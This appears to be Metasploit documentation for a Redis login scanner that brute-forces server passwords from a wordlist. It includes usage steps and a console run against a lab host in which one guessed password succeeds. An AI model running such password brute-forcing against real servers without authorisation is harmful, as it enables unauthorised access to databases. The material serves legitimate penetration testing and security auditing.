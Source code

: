 # Description
Redis is an in-memory data structure project implementing a distributed, in-memory key-value database with optional durability. Redis supports different kinds of abstract data structures, such as strings, lists, maps, sets, sorted sets, HyperLogLogs, bitmaps, streams, and spatial indexes.

This module is login utility to find the password of the redis server by using bruteforce method.

# Vulnerable Application
This module is tested on redis server 6.0.10.

Complete Installation guide ( https://redis.io/topics/quickstart )

# Verification Steps
1. Do: `use auxiliary/scanner/redis/redis_login`
2. Do: `set RHOSTS [ips]`
3. Do: `set PASS_FILE /home/kali/passwords.txt` 
4. Do: `run`

# Scenarios
```
msf6 > use scanner/redis/redis_login
msf6 auxiliary(scanner/redis/redis_login) > set RHOSTS 192.168.1.7
RHOSTS => 192.168.1.7
msf6 auxiliary(scanner/redis/redis_login) > set PASS_FILE /home/kali/Downloads/passwords.txt
PASS_FILE => /home/kali/Downloads/pass.txt
msf6 auxiliary(scanner/redis/redis_login) > run

[!] 192.168.1.7:6379      - No active DB -- Credential data will not be saved!
[-] 192.168.1.7:6379      - 192.168.1.7:6379      - LOGIN FAILED: redis:foobared (Incorrect: -WRONGPASS invalid username-password pair
)
[-] 192.168.1.7:6379      - 192.168.1.7:6379      - LOGIN FAILED: redis:admin (Incorrect: -WRONGPASS invalid username-password pair
)
[-] 192.168.1.7:6379      - 192.168.1.7:6379      - LOGIN FAILED: redis:administrator (Incorrect: -WRONGPASS invalid username-password pair
)
[+] 192.168.1.7:6379      - 192.168.1.7:6379      - Login Successful: redis:mypass (Successful: +OK
)
[*] 192.168.1.7:6379      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
